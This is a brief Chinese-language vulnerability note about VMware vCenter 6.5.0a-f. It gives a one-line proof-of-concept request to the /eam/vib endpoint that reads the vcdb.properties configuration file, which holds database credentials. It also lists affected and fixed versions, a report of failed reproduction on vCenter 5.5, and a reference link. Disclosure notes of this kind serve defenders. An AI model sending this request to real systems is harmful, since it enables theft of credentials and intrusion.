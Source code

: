 POC:  
/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties

已知影响版本：VMware vCenter 6.5.0a-f  
安全版本：VMware vCenter 6.5.0u1

有人提到：vCenter 5.5+Windows Server 2012下复现失败

参考链接：  
https://twitter.com/ptswarm/status/1316016337550938122
